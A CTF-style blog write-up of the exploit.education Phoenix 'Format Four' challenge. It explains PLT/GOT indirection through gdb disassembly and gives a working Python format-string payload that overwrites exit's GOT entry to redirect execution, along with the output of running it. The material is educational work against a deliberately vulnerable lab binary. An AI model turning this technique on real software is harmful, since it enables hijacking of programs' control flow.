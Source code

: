 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x4"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 4

Write-up for: [Format Four](https://exploit.education/phoenix/format-four/)

<!--more-->

The bug in this challenge is the same as in the previous one, so I'm not going into details. But this time, the goal is to redirect execution. The key to solving this challenge is the slightly modified `bounce` function:

```C
void bounce(char *str) {
    printf(str);
    exit(0);
}
```

It was extended by a call to the externally defined (in the standard library) `exit` function. Since the location of this function is not known to program at compile time, it's the linkers job to fill in this detail during dynamic linking. For this, there is the PLT and GOT (procedure linkage table and global offset table).

Basically, there is an additional layer of indirection. Instead of directly jumping to the function, execution goes through the PLT which in turn jumps to an offset stored in the GOT.

In gdb this looks as follows:

```
(gdb) disas bounce
Dump of assembler code for function bounce:
0x080484e5 <+0>:     push   %ebp
0x080484e6 <+1>:     mov    %esp,%ebp
0x080484e8 <+3>:     sub    $0x8,%esp
0x080484eb <+6>:     sub    $0xc,%esp
0x080484ee <+9>:     pushl  0x8(%ebp)
0x080484f1 <+12>:    call   0x8048300 <printf@plt>
0x080484f6 <+17>:    add    $0x10,%esp
0x080484f9 <+20>:    sub    $0xc,%esp
0x080484fc <+23>:    push   $0x0
0x080484fe <+25>:    call   0x8048330 <exit@plt>
```

At the end of `bounce` we call the `exit@plt` symbol. This is not the actual function but its' representation in the PLT. It looks like this:

```
(gdb) disas 0x8048330
Dump of assembler code for function exit@plt:
0x08048330 <+0>:     jmp    *0x80497e4
0x08048336 <+6>:     push   $0x18
0x0804833b <+11>:    jmp    0x80482f0
```

As you can see, we jump to an address stored at `0x80497e4`. This is the entry in the GOT filled by the dynamic linker during program load:

```
(gdb) x 0x80497e4
0x80497e4 <exit@got.plt>:       0xf7f7f543
```

This means, the actual code for the `exit` function starts at `0xf7f7f543`.

But how does this help us as attackers?

# Redirecting code execution

In the previous challenge we established an arbitrary write primitive using the format string exploit. We can now use this to overwrite the entry in the GOT! This means, when going through the PLT, execution will jump to an address of our choosing instead of to libc.

The goal is simple: overwrite the value at `0x80497e4` with the address of the `congratulations` function which is `0x08048503`.

```
(gdb) disas congratulations
Dump of assembler code for function congratulations:
0x08048503 <+0>:     push   %ebp
...
0x0804851e <+27>:    call   0x8048330 <exit@plt>
```

This can be achieved reusing the exploit from the previous exercise and adapting the values to the new addresses:

```python
import struct

ADDR = 0x80497e4

buf = struct.pack("I", ADDR)
buf += "AAAA" # Add padding between addresses since we can't access arguments directly. This ensures that between the first and second write we can add more padding to control the value we write
buf += struct.pack("I", ADDR + 2)
buf += "%" + str(0x8503 - len(buf) - 10) + "x" + "%c" * 10 + "%n" # Write to lower 2 bytes, address is at the 12th argument position. We don't have the '$' sematic on this machine so we need to provide explicit format specifiers until %n is the 12th one.
buf += "%" + str(0x10804 - 0x8503) +  "x" + "%n" # Write to upper 2 bytes
print buf
```

Just like before, we write twice to avoid having to write a huge number of characters. First we write the lower two bytes of the target address. Then we again make use of the fact that we write 4-byte values and we can overflow the 2-byte value to be smaller than the first one (see format-three for details). Run the payload and, voila!

 ```
 $user@phoenix-amd64:/opt/phoenix/i486$ ./format-four < <(python ~/format-four.py)
 ...
 Well done, you're redirected code execution!
 Well done, you're redirected code execution!
 Well done, you're redirected code execution!
 ...
 ```

 Now, the program is stuck in an endless loop. This is expected since `congratulations` also calls `exit`. And since we overwrote `exit` with `congratulations`, we enter an endless recursion.

